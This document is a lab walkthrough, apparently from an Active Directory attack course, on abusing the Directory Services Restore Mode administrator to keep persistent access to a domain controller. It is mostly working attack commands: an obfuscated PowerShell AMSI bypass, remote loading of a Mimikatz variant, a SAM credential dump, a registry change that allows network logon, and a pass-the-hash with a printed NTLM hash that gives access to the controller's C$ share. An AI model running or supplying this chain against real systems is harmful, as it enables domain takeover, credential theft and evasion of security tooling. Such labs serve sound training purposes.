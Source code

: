 # 👽 Abuse the DSRM credential for persistence

{% hint style="info" %}
### What is Directory Services Restore Mode (DSRM)?

Directory Services Restore Mode (DSRM) is a Safe Mode [boot](https://www.techtarget.com/searchwindowsserver/definition/boot) option for [Windows Server](https://www.techtarget.com/searchwindowsserver/definition/Microsoft-Windows-Server-OS-operating-system) [domain controllers](https://www.techtarget.com/searchwindowsserver/definition/domain-controller). DSRM enables an administrator to repair, recover or restore an Active Directory ([AD](https://www.techtarget.com/searchwindowsserver/definition/Active-Directory)) database. Restarting a [domain](https://www.techtarget.com/whatis/definition/domain) controller in DSRM takes it offline so it functions only as a regular server.
{% endhint %}

We can persist with administrative access on the DC once we have Domain Admin privileges by abusing the DSRM administrator. With the domain admin privileges obtained earlier, run the following commands on the DC to open a PowerShell remoting session. As always, remember that we could use other tools like SafetyKatz, BetterSafetyKatz

```
$sess = New-PSSession dcorp-dc  
Enter-PSSession -Session $sess  
S`eT-It`em ( 'V'+'aR' +  'IA' + ('blE:1'+'q2')  + ('uZ'+'x')  ) ( [TYpE](  "{1}{0}"-F'F','rE'  ) )  ;    (    Get-varI`A`BLE  ( ('1Q'+'2U')  +'zX'  )  -VaL  )."A`ss`Embly"."GET`TY`Pe"((  "{6}{3}{1}{4}{2}{0}{5}" -f('Uti'+'l'),'A',('Am'+'si'),('.Man'+'age'+'men'+'t.'),('u'+'to'+'mation.'),'s',('Syst'+'em')  ) )."g`etf`iElD"(  ( "{0}{2}{1}" -f('a'+'msi'),'d',('I'+'nitF'+'aile')  ),(  "{2}{4}{0}{1}{3}" -f ('S'+'tat'),'i',('Non'+'Publ'+'i'),'c','c,'  ))."sE`T`VaLUE"(  ${n`ULl},${t`RuE} )
exit 
```

<figure><img src="../../.gitbook/assets/image (2) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Now we need to laod Invoke-Mimi on the session, let's run this from the local machine

```
Invoke-Command -FilePath C:\AD\Tools\Invoke-Mimi.ps1 -Session $sess
```

Then once it's done we'll enter the session and run the lsadump::lsa command:

```
Enter-PSSession -Session $sess
Invoke-Mimi -Command '"token::elevate" "lsadump::sam"'
```

<figure><img src="../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

The DSRM administrator is not allowed to logon to the DC from network. So we need to change the logon behavior for the account by modifying registry on the DC. We can do this as follows:

```
New-ItemProperty "HKLM:\System\CurrentControlSet\Control\Lsa\" -Name "DsrmAdminLogonBehavior" -Value 2 -PropertyType DWORD
```

Now from our local system we can just pass the hash for the DSRM administrator:

<figure><img src="../../.gitbook/assets/image (2) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

```
Invoke-Mimi -Command '"sekurlsa::pth /domain:dcorp-dc /user:Administrator /ntlm:a102ad5753f4c441e3af31c97fad86fd /run:powershell.exe"'
```

We can now list all the shares of the domain controller:

<figure><img src="../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

We can now access the dcorp-dc directly from the new session.

```
ls \\dcorp-dc.dollarcorp.moneycorp.local\c$
```
